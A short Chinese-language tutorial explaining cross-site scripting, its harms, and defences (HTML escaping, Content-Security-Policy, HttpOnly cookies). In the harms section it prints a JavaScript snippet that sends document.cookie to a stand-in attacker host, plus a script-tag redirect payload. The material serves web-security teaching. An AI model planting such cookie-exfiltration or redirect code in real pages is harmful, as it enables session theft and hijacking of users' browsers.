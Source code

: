# XSS

XSS的攻击方式就是想办法“教唆”用户的浏览器去执行一些这个网页中原本不存在的前端代码

XSS的攻击过程都是在浏览器通过执行javascript脚本自动进行，缺少与用户交互的过程

![img](https://segmentfault.com/img/remote/1460000012693785?w=1031&h=767)

# XSS的危害

- 窃取网页浏览中的cookie值，这里和CSRF的区别是，这里是拿到了cookie后主动冒充用户的，而CSRF中根本就不知cookie，仅利用浏览器的隐式校验方式冒充用户。

  ```
  var i=document.createElement("img");
  document.body.appendChild(i);
  i.src ="http://www.hackerserver.com/?c=" + document.cookie;
  ```

  

- 劫持流量实现恶意跳转
想办法插入一句像这样的语句：`<script>window.location.href="http://www.baidu.com";</script>`

- 构建Get和Post请求

  XSS可以在javascript中构建get或者post请求，来实现自己的攻击

# 防范手段
可以从两方面入手：

- 想办法阻止恶意代码的注入和执行；

- 用更安全的方法校验和保护用户的身份凭证，以降低XSS攻击之后带来的危害；

  

1、使用HTML转义。对外部插入的内容要永远保持警惕。

对所有外部插入的代码都应该做一次转义，将script,& < > " ' /等危险字符做过滤和转义替换，同时尽量避免使用innerHTML,document.write,outerHTML,eval等方法，用安全性更高的textContent,setAttribute等方法做替代；

2、开启CSP防护。

内容安全策略（CSP）的设计就是为了防御XSS攻击的，通过在HTTP头部中设置Content-Security-Policy,就可以配置该策略，如果将CSP设置成一下模式：
`Content-Security-Policy: script-src 'self'`

那么该网站将：

- 不允许内联脚本执行;
- 禁止加载外域代码;
- 禁止外域提交;

这将有效地防范XSS的攻击，当然他也非常严格，可能会对自身的业务开发也造成一定限制，更多关于CSP的内容可以查看MDN。

3、设置HttpOnly。

当然这已经是属于降低XSS危害的方法，对于所有包含敏感信息的cookie，都应该在服务端对其设置httpOnly，被设置了httpOnly的cookie字段无法通过JS获取，也就降低了XSS攻击时用户凭据隐私泄漏的风险。

